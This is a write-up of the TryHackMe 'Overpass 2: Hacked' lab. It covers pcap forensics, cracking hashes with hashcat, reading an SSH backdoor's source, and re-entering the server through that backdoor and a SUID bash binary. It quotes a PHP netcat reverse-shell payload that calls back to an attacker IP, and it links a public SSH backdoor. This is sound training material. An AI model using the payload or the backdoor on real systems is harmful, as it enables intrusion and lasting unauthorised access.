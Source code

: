 ```yaml
---
title: THM | Overpass 2
image: /images/op2-home.png
date: 2020-09-26 17:00:00 -4:00
categories: [CTF, THM]
tags: [wireshark, pcap, hashcat, backdoor, go, salt, hash] 

---
```


# Description 
> [Overpass 2: Hacked](https://tryhackme.com/room/overpass2hacked), is an easy-rated box on [TryHackMe](https://tryhackme.com/) that has you analyze a pcap file of the network activity that occurred during the time of a breach. You then retrace the attackers steps to regain access to the server.

# `[Task 1]` Forensics - Analyze the PCAP

## `1.1` - What was the URL of the page they used to upload a reverse shell?
There's many ways to filter down the traffic you're looking for. One of the first things I do when analyzing a pcap file in wireshark is to take a look at the export objects. You can get some easy wins this way.

![](/images/op2-exp-obj.png)

![](/images/op2-obj-list.png)
`upload.php` seems like a winner. When you select it in the export list window, it will highlight the packet in wireshark. From there you can just `follow tcp stream` to analyze further.

![](/images/op2-fol-tcp-str.png)
Right away the stream reveals a lot of good info. ez.
![](/images/op2-development.png)
The very first thing shown is the `POST` request made to upload the file we discovered earlier, `upload.php` as well as the `Referer` giving us the first answer. **`/development/`**

## `1.2` - What payload did the attacker use to gain access?
Scrolling down a bit shows the content of the `POST` request and the file `payload.php` with a very common php shell code. 

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
![](/images/op2-payload.png)

## `1.3` - What password did the attacker use to privesc?
Since we know the payload used `nc 192.168.170.145 4242` to make the call back to the attacker, we can use this to filter the pcap file. Using the display filter `ip.addr == 192.168.170.145 and tcp.port == 4242`. 

![](/images/op2-dis-filter.png)

Again, choose any packet and follow the tcp stream. You will see a plethora of information, and as great as `nc` is, it is a very bad choice for keeping your traffic confidential. Everything the attacker did on the server is in clear text for us to analyze.

![](/images/op2-password.png)
> All of the red text is the server and everything in blue is the user's input.

There's the password we're looking for: `whenevernoteartinstant`

## `1.4` - How did the attacker establish persistence?
Scrolling down the same stream, you will see the attacker download a ssh backdoor from [`https://github.com/NinjaJc01/ssh-backdoor`](https://github.com/NinjaJc01/ssh-backdoor) to access the server at a later time.
![](/images/op2-backdoor.png)

## `1.5` - Using the fasttrack wordlist, how many of the system passwords were crackable?
The attacker cat'd the `/etc/shadow` file, copy the hashes and put them into a text file.
![](/images/op2-shadow.png)
### Hashcat
Now use hashcat to crack the hashes. 
![](/images/op2-hashcat.png)

# `[Task 2]` Research - Analyze the code
## `2.1` What's the default hash for the backdoor?
You can either download the repo of the ssh backdoor or just analyze it from github in your browser. It doesn't matter, everything we need is in the `main.go` file. 

Looking over the code you will find a hardcoded hash assigned to a variable.
![](/images/op2-hash.png)

## `2.2` What's the hardcoded salt for the backdoor?
Again going through the same source code, you will find a function called passwordHandler and the hardcoded salt used for the hash.
![](/images/op2-salt.png)

## `2.3` What was the hash that the attacker used? - go back to the PCAP for this!
Going through the tcp stream from earlier, you can clearly see the hash the attacker used with the backdoor.
![](/images/op2-att-hash.png)

## `2.4` Crack the hash using rockyou and a cracking tool of your choice. What's the password?

So there's a few things to hit on real quick:

- When analyzing the source code for the backdoor, we found the hardcoded salt used to hash the password mentioned in `2.2`.
- Also important, is the algorithm used to calculate the hash. Which can also be found in the source code.
```go
func hashPassword(password string, salt string) string {
	hash := sha512.Sum512([]byte(password + salt))
	return fmt.Sprintf("%x", hash)
}
```
- So it's using sha512 to hash the password + salt. 
- Great, now we can start putting together our hashcat command.

Using the [hashcat example hashes menu](https://hashcat.net/wiki/doku.php?id=example_hashes), you will find option `1710` matches our scenario in the form of `sha512($pass.$salt)`

So our command will be in form of `hashcat -m <HASH_TYPE> -a 0 -o <outfile> <HASH:SALT> <wordlist>`
![](/images/op2-hc.png)

cat the output file to reveal the password.
![](/images/op2-hc2.png)

# `[Task 3]` Attack - Get back in!
## `3.1` The attacker defaced the website. What message did they leave as a heading?
Deploy the machine and head over to the website. You will immediately see the defacement. 
![](/images/op2-web.png)

## `3.2` Using the information you've found previously, hack your way back in!
If you have a good memory and are observant, you will remember from the pcap file and the source code, that the `ssh backdoor` is listening on `port 2222`. So simply connect with ssh on that port.
![](/images/op2-ssh.png)

## `3.3` What's the user flag?
Simple enough, just go to james' home directory and cat the user.txt file.
![](/images/op2-user.png)

## `3.4` What's the root flag?
If you did a `ls -la` in james' home directory then you would of seen a hidden binary named `.suid_bash` with the sticky bit set. Seems like a quick way for the attacker to escalate to root, so let's try it out ourselves. 
![](/images/op2-root.png)

Boom, just like that we got root and we can get the last flag.

![](/images/op2-root2.png)
